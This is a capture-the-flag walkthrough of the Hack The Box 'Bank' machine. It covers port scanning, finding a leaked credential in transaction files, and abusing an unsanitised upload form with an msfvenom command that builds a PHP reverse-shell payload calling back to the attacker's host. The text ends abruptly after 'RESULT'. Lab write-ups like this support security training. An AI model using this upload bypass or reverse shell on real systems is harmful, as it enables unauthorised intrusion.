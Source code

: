 # Bank
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/71c41239-7326-462d-9f10-0ee1ebf1d1d8)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.29 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-30 00:24 PDT
Nmap scan report for 10.10.10.29
Host is up (0.029s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08eed030d545e459db4d54a8dc5cef15 (DSA)
|   2048 b8e015482d0df0f17333b78164084a91 (RSA)
|   256 a04c94d17b6ea8fd07fe11eb88d51665 (ECDSA)
|_  256 2d794430c8bb5e8f07cf5b72efa16d67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.32 seconds
```

1. Since the machine is running a web application, let's run gobuster.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6f2049b7-a312-46c4-b701-6910f6048bd4)


2. Interesting there's an upload directory, anyway let's open the web app.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6fb85d14-3f41-4138-98e9-a8e600266a05)


3. Already tried several sqli, it seems the login page is not vulnerable to sqli.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/60203418-ab63-4ed7-bbff-3fbbd563e1b4)


4. Let's check the **balance-transfer**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d4abdeee-a79f-41cc-af1c-7f22747f9b59)


5. Found many hashed or encrypted (?) transaction, but the odd is, there is one transaction with smaller size.
6. The smaller size might indicate failed hash or encryption.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1d359f3f-5ba4-4f73-a18b-a7adeb5ed28e)


> CHECKING THE SMALLER SIZE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3f953452-e518-420b-a4fb-a0af0b8f5d37)


7. Let's use the cred to login!

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8ecfe418-37e8-4773-be37-3abe6f5fa1d7)


8. At the support option, found a file upload. This could be our interest.


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2d60b788-93a2-4749-8f1f-1c09e42578ab)


> PAGE SOURCE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ca5a1cad-bf5b-4c8c-a88d-92477279b8ca)


9. Turns out it is, it does not sanitize what's inside the file, it just validates the extension must be .htb.
10. Knowing this we can send our PHP payload for reverse shell.

> USING TEMPLATE FROM MSFVENOM

```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.26 lport=1337 -f raw > reverse_shell.htb
```

11. Set a listener on port 1337, then upload the file.
12. Next, to trigger the reverse shell, let's opened the file we already within this endpoint --> `/uploads/reverse_shell.htb`.

> RESULT

aa



